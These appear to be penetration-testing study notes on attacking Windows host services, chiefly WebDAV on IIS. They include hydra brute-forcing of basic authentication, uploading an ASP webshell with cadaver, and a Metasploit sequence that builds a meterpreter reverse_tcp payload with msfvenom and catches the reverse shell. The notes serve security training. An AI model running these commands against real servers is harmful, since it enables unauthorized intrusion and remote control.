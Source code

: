 **log4J**: 

Nessus

# Auditing Fundamentals
Theory :)

# 3.1 System-Host Based Attacks
# Windows
- Microsoft IIS is a web server. port:80/443
- WebDAV is an extension to delete/update/move/copy files on a server. port:80/443
- SMB/CIFS is a network share protocol. port:445
- RDP is  a remote access protocol. port:3389 (disable by default)
- WinRM is a remote management protocol. port:5986/443 (enable by default)

## Microsoft IIS
Supported executable file extension:
- .asp - .aspx - .config - .php

## WebDAV
tools: 
- **davtest**: to check what we can move/upload/execute on the server.
`davtest -auth username:password -url http://$ip` 
- **cadaver**: support cli to upload/download/delete/move/copy files on the server
`cadaver http://$ip/webdav`
`put /usr/share/webshells/asp/webshell.asp` -> to upload a shell on the server
- **hydra**: To break WebDAV basic authenication
`hydra -L users.txt -P passwords.txt $ip http-get /webdav/`

to exploit: 
1. nmap to identify
2. break the basic authentication (guess or hydra)
3. devtest
4. cadaver

exploit with metasploit:
Way one:
1. create a shell `msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -f asp > shell.asp`
2. upload the shell with cadaver `put shell.asp`
3. start the listener 
`msfconsole`
`use multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set lhost $ip`
`set lport $port`
`run`
4. open the shell on the target and reverse connection will be recieved
`meterpreter> sysinfo`
`meterpreter> getuid`
